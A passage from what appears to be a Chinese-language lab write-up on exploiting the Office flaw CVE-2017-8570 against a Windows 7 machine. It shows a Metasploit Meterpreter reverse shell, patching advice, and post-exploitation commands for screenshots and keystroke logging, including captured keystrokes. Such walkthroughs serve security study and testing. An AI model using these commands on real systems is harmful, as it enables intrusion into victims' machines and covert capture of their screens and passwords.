 ![将恶意文件复制到win7.jpg](https://upload-images.jianshu.io/upload_images/7216746-bbeaede42c67cc22.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 即可在msf反弹metertprter的shell出来：

![在msf反弹shell.jpg](https://upload-images.jianshu.io/upload_images/7216746-4934cee6ea5742db.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 漏洞修复

1. 不要打开任何来源不明的 Office ppt 文档

2.及时更新并安装微软 2017 年 7 月发布的最新补丁： https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CV E-2017-8570fs

# 后续渗透

## 截图

```
meterpreter > screenshot

Screenshot saved to: /root/ccoDxgvg.jpeg

```

![截图.jpg](https://upload-images.jianshu.io/upload_images/7216746-913ddf3d73a0100c.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


## 键盘记录

```
meterpreter > keyscan_start # 开启键盘记录

Starting the keystroke sniffer...

meterpreter > keyscan_dump #查看键盘记录内容

Dumping captured keystrokes...

**

-[ C:\soft\SogouExplorer\SogouExplorer.exe

-[ @ 2017年8月13日  4:07:31 UTC

**

<Shift>xiaojiejie <Shift>chain<^H><^H><^H>inajoy<CR>

meterpreter > keyscan_stop #关闭键盘记录

```
